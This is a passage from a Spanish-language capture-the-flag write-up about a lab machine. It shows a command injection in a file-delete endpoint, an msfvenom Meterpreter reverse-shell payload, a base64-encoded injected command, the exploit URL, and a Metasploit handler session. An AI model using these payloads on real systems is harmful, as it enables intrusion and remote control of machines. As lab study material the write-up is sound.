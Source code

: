 ```
                }
              }
              $app->render('delete.twig.html', array('adminMessage' => $message  ));
            }
```

Pues la única comprobación que se realiza es que la decodificación BASE64 del parámetro pasado incluya el nombre del archivo existente. Si es así, se ejecuta el comando `rm` concatenando el *PATH* y el resultado de decodificar el nombre del archivo. **Inyección garantizada :)** . Sin embargo, no se muestra el resultado de la ejecución, así que la inyección se hace *a ciegas*.

# Meterpreter

Utilizando *msvenom* vamos a crear un ejecutable con *Meterpreter*. Lo subiremos a la página y trataremos de ejecutarlo.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.0.4 LPORT=10000 -f elf > meterpreter_reverse_tcp_172_16_0_4_10000.elf
```

Subimos también un *helloworld*, para poder borrarlo e inyectar el código que ejecute nuestro *meterpreter*.

El nombre del archivo asignado a *helloworld* es **59784639ec223.**
El nombre del archivo asignado a *meterpreter* es **59784659d583f.elf**

El comando completo que quiero que se ejecute es:

```
$ rm /home/malwareadm/samples/59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
                              -----------------------------------------------------------
```

Si la inyección funciona, debería obtener una sesión en *meterpreter*. Inicio *metasploit* y hago uso del módulo *exploit/multi/handler* con *LHOST=172.16.0.4* y *LPORT=10000*.

![Metasploit multi handler]({{ site.url }}/assets/proteus_metasploit_handler.png "Metasploit multi handler")

Codificamos en BASE64 lo subrayado:

```
TEXTO:  59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
BASE64: NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK
```

Iniciamos sesión con *malwareadm* y visitamos el enlace: `http://172.16.0.6/delete/NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK`

Y el resultado es...

![Sesión de Meterpreter]({{ site.url }}/assets/proteus_meterpreter_session.png "Sesión de Meterpreter")

# Clave SSH
